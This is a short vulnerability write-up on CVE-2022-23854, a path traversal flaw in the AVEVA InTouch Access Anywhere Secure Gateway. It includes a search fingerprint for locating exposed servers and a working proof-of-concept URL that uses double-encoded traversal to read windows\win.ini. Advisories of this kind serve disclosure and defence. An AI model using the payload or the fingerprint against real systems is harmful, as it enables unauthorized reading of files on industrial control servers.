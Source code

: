 # AVEVA InTouch Security Gateway AccessAnywhere Arbitrary File Reading Vulnerability CVE-2022-23854

## Vulnerability Description

AVEVA InTouch Access Anywhere Secure Gateway 2020 R2 and previous versions have a path traversal vulnerability that can be used by unauthorized attackers to obtain server sensitive information.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">AVEVA InTouch Security Gateway</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">body="InTouch Access Anywhere"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665393583233-2d925e11-abc1-42ef-9f37-10142de6a596.png)

Verify POC

```sql
/AccessAnywhere/%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255c%252e%252e%255cwindows%255cwin.ini 
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1665393604635-b68b82e6-a3e9-48e9-8b40-46c7472c442d.png)